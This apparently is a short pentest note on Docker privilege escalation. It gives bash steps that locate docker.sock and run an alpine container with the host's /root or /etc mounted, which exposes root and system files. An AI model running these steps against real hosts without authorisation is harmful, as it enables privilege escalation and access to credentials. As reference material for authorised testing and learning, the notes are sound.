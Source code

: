 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```bash - target
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock

---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

```bash - target
id
```

![[Pasted image 20221110090716.png]]

```bash - target
docker ps --all
```

![[Pasted image 20221110090807.png]]

```bash - target
docker run -v /root:/mnt -it alpine
```

```bash - target
docker run -v /etc/:/mnt -it alpine
```

```bash - target
cd /mnt
```

```bash - target
ls
```

